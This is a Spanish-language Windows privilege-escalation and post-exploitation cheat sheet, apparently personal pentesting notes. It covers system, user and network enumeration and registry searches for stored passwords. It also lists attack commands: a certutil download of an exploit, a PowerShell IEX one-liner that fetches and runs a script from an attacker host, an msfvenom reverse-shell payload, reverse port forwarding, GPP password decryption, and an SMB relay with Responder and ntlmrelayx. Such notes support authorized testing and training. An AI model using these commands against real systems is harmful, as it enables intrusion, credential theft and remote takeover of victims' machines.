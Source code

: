 #windows 
### Enumeración del sistema

```python
	systeminfo
	
	systeminfo | findstr /B /C: "OS Name" /C: "OS Version" /C: "System Type"
	
	wmic qfe get Caption, Description, HotFixID, InstalledOn #Muestra actualizaciones del sistema
	
	wmic logicaldisk get caption, description, providername #Muestra discos
```
### Enumeración de usuarios

```python
whoami

whoami /priv

whoami /groups

net user

net user <USUARIO>

net localgroup

net localgroup <GRUPO>
```
### Enumeración de red

```python
ip a

ifconfig

route

ip route

aipconfig

ipconfig /all #Información extendida

arp -a

route print

netstat -ano
```

### smbclient 

```python
	smbclient \\\\spookysec.local\\backup --user user --password pass
```
### Búsqueda de archivos

```python
#CMD
cmd /c dir /r /s C:\root.txt

where /r c:\ file.txt

#Powershell

Get-ChildItem -Path C:\Myfolder -Filter file.txt -Recurs

cmd.exe /c dir /s /b C:\user.txt
```
### Búsqueda de credenciales

```python
#Valores en el registro que contengan la string “password”

reg query HKLM /f password /t REG_SZ /s

#Listar autologon passwords

reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"

#Lista contraseñas guardadas

cmdkey /list
```
### Enumeración de antivirus

```python
sc query windefend

sc queryex type= service #Lista servicios activos

netsh advfirewall firewall dump
```
### Enumeración con herramientas automáticas

```python
	[Release Release refs/heads/master 20230108 · carlospolop/PEASS-ng (github.com)](https://github.com/carlospolop/PEASS-ng/releases/tag/20230108)
	
	[bitsadmin/wesng: Windows Exploit Suggester - Next Generation (github.com)](https://github.com/bitsadmin/wesng)

````
## Funciones básicas

### Descarga de archivos[](#descarga-de-archivos)

```python
certutil.exe -urlcache -f 10.10.14.4 exploit.exe
```
### Comprobación de permisos sobre un archivo

```python
accesschk.exe /accepteula -quvw <user> <Ruta absoluta del archivo>
```
### Ejecución de un programa como otro usuario en Powershell

```python
powershell -c "$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force; $creds = New-Object System.Management.Automation.PSCredential('<USER>', $password);Start-Process -FilePath "<PROGRAM.EXE>" -Credential $creds"
```
### Windows Port Forwarding

```python
plink.exe -l <KALI_USER> -pw <KALI_USER_PASS> -R <KALI_PORT>:<LOCAL_IP/LOCALHOST_IP>:<LOCAL_PORT> <KALI_IP>
```
### Transferencia de archivos mediante smb

```python
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali . #Kali

copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe #Windows
```
### Desencriptado GPP

```python
gpp-decrypt "<hash>"
```

### Web Client

```python
IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.64/SharpHound.ps1')
```

### Generación de Reverse Shell ejecutable

```python
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```

### SMBRelay

```python
#Comprobando firmas SMB
crackmapexec smb 10.0.2.6
nmap -p 445 --script smb2-security-mode <IP> -Pn
#Ataque con Responder
#Editar el archivo de configuración de Responder y desactivar las opciones SMB y HTTP -> /etc/responder/Responder.conf
sudo responder -I eth0 -dw
impacket-ntlmrelayx -t <IP_VÍCTIMA> -smb2support
#(Actualizar este punto porque parece que los comandos y la ejecución está bastante deprecada)
```
